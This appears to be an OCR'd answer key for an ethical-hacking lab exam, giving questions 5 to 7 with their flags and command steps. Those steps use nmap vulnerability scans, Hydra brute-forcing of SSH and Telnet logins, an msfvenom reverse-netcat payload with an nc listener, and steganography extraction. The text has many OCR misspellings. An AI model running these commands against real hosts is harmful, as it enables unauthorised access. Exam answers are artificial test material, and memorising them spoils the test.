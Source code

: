 ===================================================================================================================

5.Perform a vulnerability scan for the host with IP address 172.20.0.16. What is the severity score of a vulnerability that indicates the End of Life of a web development language platorm?
Answer: 10
1. nmap -Pn - -script vuln 172.20.0.16
2. now copy the CVE number which is vulnerable paste in goggle and see the value.
3. Most of the tme “10”.
example CVE-2006-3392 htps://www.cvedetails.com/cve/CVE-2006-3392/

===================================================================================================================

6.Exploit a remote login and command-line executon applicaton on a Linux target in the 192.168.0.0/24 subnet to access a sensitve fle, NetworkPass.txt. Enter the content in the fle as answer.
Answer: F56C8p@
1. Use Hydra to break the password Telnet, login and access the fle, and enter the fag.
2. Exploit a Remote Command Executon Vulnerability to Compromise a Target Web Server Task-7
3. Nmap -p 22,23,80,3389 192.168.0.0/24
4. sudo nmap -sS -sV -p- -O ipadd
5. telnet 192.168.0.19 80 and GET / HTTP/1.0
6. hydra -L user.txt -P pass.txt 192.168.0.1 ssh
7. hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.106 telnet
8. ssh ubuntu@192.168.0.1
9. telnet 192.168.0.1
10. msfvenom -p cmd/unix/reverse_netcat LHOST=ip LPORT=444 and copy the path go to target machine afer login paste now 
	fnd . -name fag.txt
11. start listen nc -lnvp 444
12. password type
13. ls
14. fnd . -name NetworkPass.txt
15. cat /path/NetworkPass.txt

===================================================================================================================

7.A forensic investgator has confscated a computer from a suspect in a data leakage case. He found an image fle,
MyTrip.jpg, stored in the Documents folder of the "EH Workstaton – 2" machine. He suspects that some
confdental data is hidden in the image fle. Analyse the image fle and extract the sensitve data hidden in the fle.
Enter the sensitve data, an eight-character alpha-numeric string, as the answer. Use "Imaginaton" if you are stuck.
Answer: N7#SePFn
1. openstego tool in 2019 or use stegonline for online
2. upload the fle type password
3. type the fag

===================================================================================================================
